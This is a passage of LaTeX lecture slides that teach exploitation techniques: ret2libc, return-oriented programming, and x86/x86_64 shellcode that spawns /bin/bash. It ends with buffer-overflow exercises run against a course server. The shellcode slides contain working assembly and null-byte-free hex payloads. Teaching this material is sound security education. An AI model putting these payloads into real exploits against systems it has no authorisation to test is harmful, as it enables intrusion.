        \label{fig:ret2libc-1}
        \caption{Ret2libc fashioned stack smashing, before ret (stdcall ia32)}
    \end{figure}	
\framebreak
	\begin{figure}
        
\includegraphics[width=0.65\textwidth]{imgs/ret2libc-2.png}
        \label{fig:ret2libc-2}
        \caption{Ret2libc fashioned stack smashing, executing target function prologue (stdcall ia32)}
    \end{figure}

\end{frame}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\subsection{ROP}
\begin{frame}[fragile, allowframebreaks]{ROP}

\begin{itemize}
\item What if we need to provide a \emph{system()} parameter  which is in a randomized memory area?
\item Is there a way to do some computation without code injection?
\end{itemize}

\begin{block}{Return Oriented Programming}
Programming technique that borrow chunks of pre-existent code, control flow is controlled by jumping to these ``{\bf \emph{gadgets}}''.
\end{block}

\begin{block}{Gadget}
In ROP jargon a ``gadget'' is a collection of sequential instructions which end with a \emph{RET (0xc3)} (typically one or two instruction before RET).\\
\emph{{\bf NOTE}: x86 works with processors unaligned memory addresses, so we can found lots of gadgets\ldots}
\end{block}

\framebreak 

\begin{block}{How to program in ROP}
\begin{columns}[c] 
    \column{.5\textwidth}
    \begin{itemize}
    \item {\bf ESP} works similar to {\bf EIP}, like a \emph{gadget} pointer
   	\item Putting \emph{gadget} address on stack enable us to sequentially execute arbitrary chunks of codes.
   	\item By controlling ESP we could govern the ROP control flow.
	\end{itemize}     
    \column{.5\textwidth} 
    \begin{itemize}
    \item {\bf Gadgets} may not be what we exactly need (eg. mov eax,esp; ret), they could contain also undesired instruction (eg. mov eax,esp;push ebx;ret)
    \item ROP programming is typically{\bf Touring-Complete}, on condition that target program is sufficiently large.
    \item Manual ROP programming is quite a mess\ldots some \emph{ROP Compilers} exists :)
	\end{itemize}
\end{columns}
\end{block}

\framebreak

	\begin{figure}
        
\includegraphics[width=0.5\textwidth]{imgs/rop-stack.png}
        \label{fig:rop-stack}
        \caption{Stack during a ROP based stack smashing, try to figure out what happens (ia32)}
    \end{figure}

\end{frame}

% How to write a shellcode
\section{Shellcoding}
\begin{frame}[fragile]{Shellcoding}
	\begin{block}{BOF payload}
		\begin{itemize}
			\item A buffer overflow exploitation ends with the execution of an arbitrary payload.
			\item The payload is a sequence of machine code instructions.
			\item A common way to write shellcode is to use assembly language.
			\item Usually, the ultimate goal is to spawn a shell (hence \emph{shellcoding}):
		\end{itemize}
	\end{block}
	\ccode
	\begin{lstlisting}
		execve("/bin/bash", ["/bin/bash", NULL], NULL);
	\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Shellcoding: Creation steps}
	\ccode
	\begin{lstlisting}
		execve("/bin/bash", ["/bin/bash", NULL], NULL);
	\end{lstlisting}
	\begin{block}{Knowledge required:}
		\begin{enumerate}
			\item Invoking a syscall.
			\item Refer the string \emph{``/bin/bash''} and the argument array.
			\item Optimize the payload.
		\end{enumerate}
	\end{block}
\end{frame}

\begin{frame}[fragile]{Shellcoding: Syscalls}
	\subsection{Syscalls}
	\begin{block}{Invoking a syscall}
		\begin{itemize}
			\item Syscalls are invokable using a numerical id.
			\item Ids are defined into \emph{unistd\_32.h} for x86 systems and \emph{unistd\_64.h} for x86\_64 systems.
			\item On x86\_64 systems the assembler operation \emph{syscall} execute the syscall identified by rax.
			\item On x86 systems the assembler operation \emph{int 80h} raises a software interrupt, which leads to the execution
				of the syscall identified by eax.
		\end{itemize}
	\end{block}
	\acode
	\begin{columns}[T]
		\begin{column}{.4\textwidth}
			\begin{lstlisting}
				; exit(0) syscall
				mov rdi, 0
				mov rax, 60
				syscall
			\end{lstlisting}
		\end{column}
		\begin{column}{.4\textwidth}
			\begin{lstlisting}
				; exit(0) syscall
				mov ebx, 0
				mov eax, 1
				int 80h
			\end{lstlisting}
		\end{column}
	\end{columns}
\end{frame}

\begin{frame}[fragile,shrink]{Shellcoding: The execve syscall}
	\ccode
	\begin{lstlisting}
		unistd_32.h
		#define __NR_execve 11
		unistd_64.h
		#define __NR_execve 59
		syscall.h
		int kernel_execve( const char *filename,
		                   const char *const argv[],
		                   const char *const envp[]);
	\end{lstlisting}
	\begin{block}{man 2 execve}
		\begin{itemize}
			\item execve() executes  the  program  pointed to by filename.
			\item argv is an array of argument strings passed to the new program. By
				convention, the first of these  strings  should contain the filename.
			\item envp is an array of strings, conventionally of the form \emph{key=value}.
			\item Both argv and envp \textbf{must} be terminated by a NULL pointer.
			\item On Linux, argv [or envp] can be specified as NULL, which has the same effect as specifying  this  argument as a pointer to a list containing a single NULL pointer.
		\end{itemize}
	\end{block}
\end{frame}

\begin{frame}{Shellcoding: Syscall and parameter passing}
	\begin{block}{How to pass parameters?}
		\begin{itemize}
			\item Use the calling convention for syscalls!
				\begin{description}
					\item[x86\_64]rdi, rsi, rdx, r10, r8 and r9.
					\item[x86]ebx, ecx, edx, esi, edi and ebp.
				\end{description}
			\item Other parameters go into the stack.
			\item \emph{execve} parameters:
				\begin{description}
					\item[x86\_64]$rdi \implies "/bin/bash", rsi \implies ["/bin/bash",
						NULL], rdx \implies NULL$
					\item[x86]$ebx \implies "/bin/bash", ecx \implies ["/bin/bash", NULL], edx \implies NULL$
				\end{description}
		\end{itemize}
	\end{block}
\end{frame}

\begin{frame}[fragile,allowframebreaks]{Shellcoding: Data reference}
	\subsection{Data reference}
	\begin{block}{The reference problem}
		\begin{itemize}
			\item The shellcode must know the reference of \emph{``/bin/bash''}, argv and env.
			\item The shellcode is not compiled with the program it's intended to run: it must be designed as a \emph{Position Independent Code}, i.e. the shellcode can't use absolute reference.
			\item Therefore you must use relative addressing, but before IA-64 it was not possible.
		\end{itemize}
	\end{block}
	\acode
	\begin{lstlisting}
		filename db '/bin/bash',0
		; What will be the address of filename in any program?
		mov rdi, ?
	\end{lstlisting}

	\framebreak

	\begin{block}{Old IA-32 way}
		\begin{itemize}
			\item You use a trick: jmp just before the data location, then do a
				call.
			\item The call Instruction pushes the next instruction pointer onto the
				stack, which is equal to the \emph{``/bin/bash''} address.
		\end{itemize}
	\end{block}
	\acode
	\begin{lstlisting}
		jmp filename
		run:
		  pop ebx ; ebx now contains "/bin/bash" reference
		  ; ...
		filename:
		  call run
		  db '/bin/bash',0
	\end{lstlisting}
	\begin{block}{New IA-64 way}
		\begin{itemize}
			\item IA-64 introduces the RIP relative addressing.
			\item \emph{[rel filename]} becomes \emph{[rip + offset]}
		\end{itemize}
	\end{block}
	\acode
	\begin{lstlisting}
		lea rdi, [rel message] ; now rdi contains
		                       ; the string reference
		; ...

		filename db '/bin/bash',0
	\end{lstlisting}
	\begin{block}{Generic Way}
		\begin{itemize}
			\item You can push the string in hex format into the stack.
			\item The stack pointer is then the string reference.
		\end{itemize}
	\end{block}
	\acode
	\begin{lstlisting}
		push 0x00000068 ; 0x00, 'h'
		push 0x7361622f ; 'sab/'
		push 0x6e69622f ; 'nib/'
		mov ebx, esp ; now ebx contains the string reference
		; ...
	\end{lstlisting}
\end{frame}

\begin{frame}[fragile, allowframebreaks]{Shellcode: first attempt}
	\acode
	\begin{lstlisting}
		bits 64

		lea rdi, [rel filename] ; filename
		lea rsi, [rel args] ; argv
		mov rdx, 0 ; envp

		mov [rel args], rdi ; argv[0] <- filename
		mov [rel args+8], rdx ; argv[1] <- null

		mov rax, 59
		syscall

		filename db '/bin/bash',0
		args db 16
	\end{lstlisting}
	\begin{lstlisting}
		\x48\x8d\x3d\x21\x00\x00\x00\x48\x\x8d\x35\x24\x00\x00
		\x00\xba\x00\x00\x00\x00\x48\x89\x3d\x18\x00\x\x00\x00
		\x48\x89\x15\x19\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f
		\x05\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x01\x00
		\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00
	\end{lstlisting}
	\begin{itemize}
		\item \alert{Warning: zero-byte presence!}
		\item Often shellcode payload are red as string.
		\item C strings are null-terminated array of chars.
		\item The vulnerable program will process only the first five bytes!
	\end{itemize}
\end{frame}

\begin{frame}{Shellcode: Zero-bytes problem}
	\subsection{Zero-bytes problem}
	\begin{block}{Zero-bytes presence is caused by data and addresses}
		\begin{itemize}
			\item \emph{mov rax, 11h} is equivalent to \emph{mov rax, 0000000000000011h}.
			\item \emph{lea rax, [rel message]} is equivalent to \emph{lea rax, [rip + 0000\ldots{}xxh]}.
			\item \emph{execve}, for instance, requires a null terminated string and some null parameters.
		\end{itemize}
	\end{block}
	\begin{block}{Solutions}
		\begin{itemize}
			\item Use \emph{xor} operation to zero a register.
			\item Use smaller registers (e.g.: rax $\rightarrow$ eax $\rightarrow$ ax $\rightarrow$ [ah,al])
			\item Use \emph{add} operation: immediate operator is not expanded.
			\item Place non-null marker and substitute them inside the code.
			\item Make a relative reference offset negative.
		\end{itemize}
	\end{block}
\end{frame}

\begin{frame}[fragile, allowframebreaks]{Shellcode: second attempt}
	\acode
	\begin{lstlisting}
		bits 64
		jmp code
		filename db '/bin/bash','n' ; 'n' is the marker
		args db 16
		code:
		  lea rdi, [rel filename] ; negative offset
		  lea rsi, [rel args] ; negative offset
		  xor rdx, rdx ; zeros rdx
		  mov [rel filename+10], dl ; zeros the marker 
		  mov [rel args], rdi
		  mov [rel args+8], rdx
		  xor rax,rax ; zeros rax
		  mov al, 59 ; uses smaller register
		  syscall
	\end{lstlisting}
	\begin{lstlisting}
		\xeb\x0b\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x6e
		\x10\x48\x8d\x3d\xee\xff\xff\xff\x48\x8d\x35\xf1
		\xff\xff\xff\x48\x31\xd2\x88\x15\xe8\xff\xff\xff
		\x48\x89\x3d\xe1\xff\xff\xff\x48\x89\x15\xe2\xff
		\xff\xff\x48\x31\xc0\xb0\x3b\x0f\x05
	\end{lstlisting}
	\begin{itemize}
		\item Zero-bytes eliminated.
	\end{itemize}
\end{frame}

% Bof exercise
\section{Exercise}


\begin{frame}[fragile,allowframebreaks]{Tools}

\begin{block}{objdump - the linux disassembler}
		\begin{verbatim}
$ objdump -M intel -d <PROGNAME>
		\end{verbatim}
\end{block}
\framebreak		
\begin{block}{gdb - the linux debugger}
	\footnotesize
	\begin{verbatim}
$ gdb <PROGNAME>
(gdb) set disassembly-flavor intel   # we like intel sintax
(gdb) disassemble <SYMBOL-OR-ADDRESS>   # eg. disass main
(gdb) b * 0xdeadbeef			# breakpoint at address
(gdb) run <ARGS>	    # run the program
(gdb) stepi         # step into
(gdb) nexti         # step over
(gdb) finish	        # run until ret
(gdb) i r           # info registers
(gdb) i b           # info breakpoints
(gdb) x/20i	$eip	    # print 20 instr starting from EIP
(gdb) x/20w	$esp	    # 'w' WORD, 's' STRING, 'd' 
                       DECIMAL, 'b' BYTE
(gdb) display/<X-EXPR>	# like x/ but launched 
                           at every command
	\end{verbatim}
	\normalsize
\end{block}
\end{frame}

\begin{frame}[fragile,allowframebreaks]{Exercise}
	Exercises source available at \url{http://goo.gl/WupDs}\\
	Some exercises need to connect via ssh to cesena.ing2.unibo.it\\
	 as pwn at port 7357 to test your solution.\\
	(ssh pwn@cesena.ing2.unibo.it -p 7357)\\
	\begin{figure}
		\centering
		
\includegraphics[height=.4\textheight]{imgs/qrcode.png}
		\caption{Exercises source}
		\label{fig:qrcode}
	\end{figure}
\framebreak
	\begin{block}{Warming up}
		\emph{auth}\\
		Just a basic overflow.\\
		Don't look too far, it's just next to you.
	\end{block}
\framebreak
	\begin{block}{Function pointer overwrite}
		\emph{nameless}\\
		Hey! A function pointer!\\
		Yes, we probably need \emph{gdb}
	\end{block}
\framebreak
	\begin{block}{Return OverWrite Easy}
		\emph{rowe}\\
		We are getting serious\\
		You'll have to OverWrite the return address!
	\end{block}
\framebreak
	\begin{block}{Return OverWrite Hard}
		\emph{rowh}\\
		Just like the previuos, but can you also prepare the data on the stack?
	\end{block}
\framebreak
	\begin{block}{Notes program}
		\emph{note}\\
		Sample notes program, ./note reads the notes, ./note "my note" adds a note\\
		You'll need a shellcode.
	\end{block}
\end{frame}


\section{References}
\begin{frame}[allowframebreaks]{References}
	\bibliographystyle{plain}
	\nocite{reference}
	\nocite{*}
	\bibliography{references}{}
\end{frame}

\end{document}
